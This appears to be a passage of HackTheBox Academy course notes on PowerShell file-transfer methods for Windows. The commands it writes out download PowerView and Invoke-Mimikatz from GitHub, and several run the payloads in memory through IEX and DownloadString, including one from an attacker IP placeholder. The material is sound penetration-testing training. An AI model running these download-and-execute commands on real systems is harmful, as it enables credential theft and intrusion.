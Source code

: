 # HackTheBox Academy 


## Module: File Transfers


### Windows File Transfer Methods


#### PowerShell Downloads


In most environments, HTTP/HTTPS traffic is allowed out of the firewall in some form - and if we have a GUI session, a web browser could also be used. However, from a Windows shell, PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP.

```
PS C:\htb> (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```
From `PowerShell 3.0`, Invoke-WebRequest is also available, but it is noticeably slower at downloading files. The aliases iwr, curl, and wget can be used instead of Invoke-WebRequest.

```
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias iex.

```
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX also accepts pipeline input.

```
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter -UseBasicParsing.

```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | iex

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
```
